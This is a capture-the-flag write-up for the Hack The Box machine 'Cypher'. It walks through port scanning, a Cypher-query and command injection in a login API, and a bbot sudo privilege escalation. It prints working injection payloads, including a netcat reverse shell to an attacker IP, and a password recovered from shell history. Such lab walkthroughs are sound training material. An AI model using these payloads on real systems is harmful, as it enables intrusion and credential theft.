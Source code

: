 ```yaml
---
name: Cypher
difficulty: medium
os: linux
platform: htb
date: 2025/07/03
releasedDate: 2025-07-27
userFlag: true
rootFlag: true

img: https://labs.hackthebox.com/storage/avatars/765cd4be6f3a366ca83c7ea60bbcaaa8.png
---
```


## Enumeration

We start by scanning the target machine for open ports using Nmap. We will use the `-p-` option to scan all ports and the `--open` option to filter out closed ports

```bash
nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.11.57 -o allPorts
```

```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

We will add `cypher.htb` to our `/etc/hosts` file to access the web service:

```bash
echo "10.10.11.57 cypher.htb" | sudo tee -a /etc/hosts
```

We try to get more information about the open ports using service version detection and script scanning using `-sC` and `-sV` options

```bash
nmap -p 22,80 -sCV -vvv 10.10.11.57 -o targeted
```

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 9.6p1 Ubuntu 3ubuntu13.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 be68db828e6332455446b7087b3b52b0 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMurODrr5ER4wj9mB2tWhXcLIcrm4Bo1lIEufLYIEBVY4h4ZROFj2+WFnXlGNqLG6ZB+DWQHRgG/6wg71wcElxA=
|   256 e55b34f5544393f87eb6694cacd63d23 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEqadcsjXAxI3uSmNBA8HUMR3L4lTaePj3o6vhgPuPTi
80/tcp open  http    syn-ack ttl 63 nginx 1.24.0 (Ubuntu)
|_http-server-header: nginx/1.24.0 (Ubuntu)
|_http-title: GRAPH ASM
| http-methods: 
|_  Supported Methods: GET HEAD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We use `gobuster` to enumerate directories and files in the web application:

```bash
gobuster dir -u http://cypher.htb -w /usr/share/seclists/Discovery/Web-Content/common.txt
```

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://cypher.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/about                (Status: 200) [Size: 4986]
/api                  (Status: 307) [Size: 0] [--> /api/docs]
/demo                 (Status: 307) [Size: 0] [--> /login]
/index                (Status: 200) [Size: 4562]
/index.html           (Status: 200) [Size: 4562]
/login                (Status: 200) [Size: 3671]
/testing              (Status: 301) [Size: 178] [--> http://cypher.htb/testing/]
Progress: 4746 / 4747 (99.98%)
===============================================================
Finished
===============================================================
```

## User Exploitation

We find a .jar file in the `/testing` directory, which is a Java application

We can use `http://www.javadecompilers.com/` to decompile the .jar file and analyze its contents.

We find a procedure called `custom.getUrlStatusCode` that takes a URL as an argument and returns the HTTP status code of that URL. This procedure is vulnerable to command injection, allowing us to execute arbitrary commands on the server.

We can exploit this vulnerability by injecting a command that will call the `custom.getUrlStatusCode` procedure with a URL that contains a command injection payload. For example, we can use the following payload:
```
{
  POST /api/auth HTTP/1.1


  "username":"a' RETURN h.value as hash UNION CALL custom.getUrlStatusCode(\"http://localhost; sleep 2; #\") YIELD statusCode as hash RETURN hash //",
  "password":"admin"
}
```

We use `nc` to listen for incoming connections on port 4444 and then send the payload to the server:

```bash
nc -lvnp 4444
```

We use `nc` to connect to the reverse shell on the server:

```
{
  "username":"a' RETURN h.value as hash UNION CALL custom.getUrlStatusCode(\"http://localhost; sleep 4; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.90 4444 >/tmp/f; #\") YIELD statusCode as hash RETURN hash //",

  "password":"admin"
}
```

Once we have a reverse shell, we can get a persistent shell by using the following commands on the reverse shell

```bash
script /dev/null -c /bin/bash
CONTROL-Z
stty raw -echo; fg
reset xterm
export TERM=xterm
```

We can get some credentials in .bash_history:

```
cU4btyib.20xtCMCXkBmerhK
```
We try logging in via SSH with the username `graphasm` and the password `cU4btyib.20xtCMCXkBmerhK` and it works:

```bash
ssh graphasm@cypher.htb
```

We can find the user flag in the home directory:

```bash
cat /home/graphasm/user.txt
```

```
user flag value
```

## Root Exploitation

We can check if user `graphasm` has sudo privileges:

```bash
sudo -l
```

```
User graphasm may run the following commands on cypher:
    (ALL) NOPASSWD: /usr/local/bin/bbot
```

We can see that user `graphasm` can run the command `/usr/local/bin/bbot` as root. We can check what is this utility:
```bash
cat /usr/local/bin/bbot
```

We see its calling a python library called `bbot` and we can check the version of the library:

```bash
sudo /usr/local/bin/bbot -v
```
```
  ______  _____   ____ _______
 |  ___ \|  __ \ / __ \__   __|
 | |___) | |__) | |  | | | |
 |  ___ <|  __ <| |  | | | |
 | |___) | |__) | |__| | | |
 |______/|_____/ \____/  |_|
 BIGHUGE BLS OSINT TOOL v2.1.0.4939rc
```

We can see that the version is `2.1.0.4939rc`, which is vulnerable to Local Privilege Escalation.

We use `https://github.com/Housma/bbot-privesc` repository to exploit the vulnerability:

```bash
git clone https://github.com/Housma/bbot-privesc.git
cd bbot-privesc
sudo /usr/local/bin/bbot -t dummy.com -p preset.yml --event-types ROOT
```

A privilege shell is spawned as root. We can read the root flag:

```bash
cat /root/root.txt
```

```
root flag value
```

## Conclusion

This writeup details the steps taken to exploit the Cypher machine on Hack The Box, from initial enumeration to privilege escalation and obtaining both user and root flags. The process involved web application exploitation, command injection, and leveraging a known vulnerability in the `bbot` utility to gain root access.
This writeup serves as a guide for those looking to understand the exploitation techniques used in this machine

